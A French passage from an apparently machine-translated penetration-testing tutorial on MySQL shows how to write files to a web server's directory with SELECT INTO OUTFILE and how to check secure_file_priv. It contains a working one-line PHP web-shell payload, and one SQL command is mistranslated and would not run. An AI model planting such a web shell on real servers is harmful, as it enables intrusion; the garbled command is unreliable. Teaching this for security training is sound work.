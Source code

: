 * * * * *

Écrire des fichiers locaux
-----------------

`MySQL` n'a pas de procédure stockée comme `xp_cmdshell`, mais nous pouvons exécuter des commandes si nous écrivons à un emplacement du système de fichiers qui peut exécuter nos commandes. Par exemple, supposons que `MySQL` fonctionne sur un serveur Web basé sur PHP ou sur d'autres langages de programmation comme ASP.NET. Si nous avons les privilèges appropriés, nous pouvons essayer d'écrire un fichier en utilisant [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) dans le répertoire du serveur Web. Ensuite, nous pouvons naviguer jusqu'à l'emplacement où se trouve le fichier et exécuter nos commandes.

#### MySQL - Écrire un fichier local

MySQL - Écrire un fichier local

```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Requête OK, 1 ligne affectée (0,001 s)

```

Dans `MySQL`, une variable système globale [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limite l'effet des opérations d'importation et d'exportation de données , telles que celles effectuées par les instructions `LOAD DATA` et `SELECT ... INTO OUTFILE` et les instructions [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions .html#function_load-file) fonction. Ces opérations ne sont autorisées qu'aux utilisateurs disposant du privilège [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) .

`secure_file_priv` peut être défini comme suit :

- Si vide, la variable n'a aucun effet, ce qui n'est pas un paramètre sécurisé.
- Si défini sur le nom d'un répertoire, le serveur limite les opérations d'importation et d'exportation à Travaillez uniquement avec les fichiers de ce répertoire. Le répertoire doit exister ; le serveur ne le crée pas.
- S'il est défini sur NULL, le serveur désactive les opérations d'importation et d'exportation.

Dans l'exemple suivant, nous pouvons voir que la variable `secure_file_priv` est vide, ce qui signifie que nous pouvons lire et écrire des données à l'aide de `MySQL` :

#### MySQL - Privilèges de fichiers sécurisés

MySQL - Privilèges de fichiers sécurisés

```
mysql> affiche des variables comme "secure_file_priv" ;

+-----------------+-------+
| nom_variable | Valeur |
+-----------------+-------+
| secure_file_priv | |
+-----------------+-------+

1 rangée en série (0,005 s)

```
